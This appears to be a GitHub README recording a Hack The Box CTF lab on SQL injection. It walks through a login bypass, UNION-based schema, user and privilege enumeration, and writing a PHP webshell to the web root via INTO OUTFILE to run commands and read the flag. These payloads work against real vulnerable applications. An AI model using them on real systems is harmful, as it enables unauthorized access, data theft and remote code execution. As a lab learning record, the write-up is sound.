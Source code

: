 # sqlinjection
sql injection is a method of how we bypass the system to find whether there is a vulnerability in a system or not, by utilising how the database works, in this ctf I used the hackthebox platform to find flags where in this lab I was asked to find the flag of a flag using sql injection.

## 1. **Login Into the page**
to enter the website I use the basic method where I try to manipulate the admin login accent by using the following command:
username:`admin' OR 1=1 -- -`
pasword: `testing`
and it output:
![loginadmin](https://drive.usercontent.google.com/download?id=14e2By7xIO0rRizcUENYfVnERnhykZaek&export=download&authuser=0&confirm=t&uuid=866a8f5a-3b4b-41e1-9eb2-dc00d2b3dc92&at=AIrpjvNVkhCJeL7VZtWccTdWOL6b:1739109049636)

## 2. Check for the table informations**
when checked the table using command `ORDER BY 5 -- -` then I can see how many tables are stored by the system, this way I can start inserting payloads on the system but if the table is more than i trying to access it will throws error:
![orderingtable](https://drive.usercontent.google.com/download?id=13l_sY8PAqw04_61-OaJkTIUAedY8JtXZ&export=download&authuser=0&confirm=t&uuid=f9e656fb-aff0-4445-b1e2-2233437668cc&at=AIrpjvMsGRMpDV6EHS-JDmb25mpj:1739108872263)
## 3. Checking the database schema 
to view the database schema where it can show information on how the database is handled and what databases exist by entering the following payload: `cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -`
with result:
![databaseschema](https://drive.usercontent.google.com/download?id=1HMOViusldhQh-RpPuC3s_rgpito8RIrt&export=download&authuser=0&confirm=t&uuid=448aeed4-4305-4bbb-a90a-6030e679b98e&at=AIrpjvP25CwG12ojwDVdnViFKElI:1739109547050)
after that i check database users that currently use the database `cn' UNION SELECT 1, user(), 3,4,5 -- -`
result:
![result](https://drive.usercontent.google.com/download?id=165qaDYEjOxZfuFzD82J8895NJvJCwDvx&export=download&authuser=0&confirm=t&uuid=ceb11ec7-0c4a-48a3-a9d6-1408fcd22950&at=AIrpjvOwEN1oBPD7C4edW41Cp2Ep:1739109619157)
## 4. Check the admin priviledge
to be able to execute the webshell I'm trying to see if users have admin priviledges and some common functionality using this payload: `cn' UNION SELECT 1, super_priv, 3,4,5 FROM mysql.user WHERE user="root"-- -` and also this payload `cn' UNION SELECT 1, grantee, privilege_type,is_grantable,5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`
result:
![result](https://drive.usercontent.google.com/download?id=1Z8436nXhK8EH39meOLffbwuMhRb55Vpm&export=download&authuser=0&confirm=t&uuid=0f57873d-39c9-43a5-935a-2e66ddd34747&at=AIrpjvPCMXMD2xepEgxK2rdqi4ry:1739109771911)
## 5. Excecute  a webshell
After I tried to enter this, I finally tried to enter this payload `cn' union select "",'<?php system($_REQUEST[0]); ?>', "","","" into outfile '/var/www/html/dashboard/shell.php'-- -`  to execute the webshell with the results after listing the root  directories:
![result](https://drive.usercontent.google.com/download?id=1oGKTYr9HRSKZF7KsFBQFfR2QnJsfCqHO&export=download&authuser=0&confirm=t&uuid=1e609fdd-b8e3-40e8-b41f-4dfc5b3b261b&at=AIrpjvNnvEtS3RKnOYp78AZPftq4:1739109951999)
and then i catting the flag file
![flag](https://drive.usercontent.google.com/download?id=1WxuFjsuQ3ghaZfiq-zXunbqCVjepU61_&export=download&authuser=0&confirm=t&uuid=f7ef62a3-f901-428e-9ef0-7082a36557fe&at=AIrpjvO2dVFO_xbrVSYlkQQSv3vH:1739110091196)
